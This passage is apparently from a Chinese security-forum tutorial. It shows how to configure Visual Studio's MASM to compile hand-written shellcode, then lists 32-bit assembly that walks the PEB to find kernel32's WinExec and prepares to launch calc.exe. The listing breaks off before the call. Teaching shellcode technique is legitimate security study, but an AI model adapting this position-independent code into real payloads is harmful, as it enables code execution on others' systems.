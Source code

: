 但是这样不方便直接提取ShellCode，故在此可以采用VS 2019的MASM编译器去编译成PE文件再提取。

VS 配置编译过程如下:

1）选择空项目，右击项目，选择依赖项-&gt;生成自定义文件，勾选masm

![image-20211130133513714](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-b7e5bc1a74957f72637d1e38b567941eae6b32f9.png)

2）右击源文件选择属性，配置项类型

![image-20211130133733050](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-27bc1253f437b1c09e663910f66e962511b69bcc.png)

3）配置入口点，项目属性-&gt;链接器-&gt;高级,配置入口点为`start`

![image-20211130133955229](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-a871cdea0d53b084a0d88733ff555932c2a0c236.png)

4） 添加ShellCode.asm，代码的话需要规范下十六进制统一为xxh,要不然编译爆语法错误，MASM不像内联汇编语法那么松散。

```assembly
; shellcode.asm
.386
.model flat,stdcall
option casemap:none 

.code
start:
    ASSUME  fs:NOTHING
    mov ebx, fs:[30h];
    ASSUME  fs:ERROR
    mov ebx, [ebx + 0Ch]
    mov ebx, [ebx + 14h];
    mov ebx, [ebx];
    mov ebx, [ebx];
    mov ebx, [ebx + 10h];
    mov edx, [ebx + 3Ch];
    add edx, ebx;
    mov edx, [edx + 78h];
    add edx, ebx;
    xor ecx, ecx;
    dec ecx;
    mov esi, [edx + 20h];
    add esi, ebx;
    Fetch_Func:
        inc ecx;
        lodsd;
        add eax, ebx;
        cmp dword ptr[eax], 456E6957h;
        jnz Fetch_Func;
        cmp dword ptr[eax + 4h], 636578h;
        jnz Fetch_Func;
    mov esi, [edx + 24h];
    add esi, ebx;
    mov cx, [esi + 2 * ecx];
    mov esi, [edx + 1Ch];
    add esi, ebx;
    mov edx, [esi + ecx * 4];
    add edx, ebx;

    xor ebx, ebx;
    push ebx;
    push 6578652Eh;
    push 636C6163h;
    mov esi, esp;

    push 10;
    push esi;
```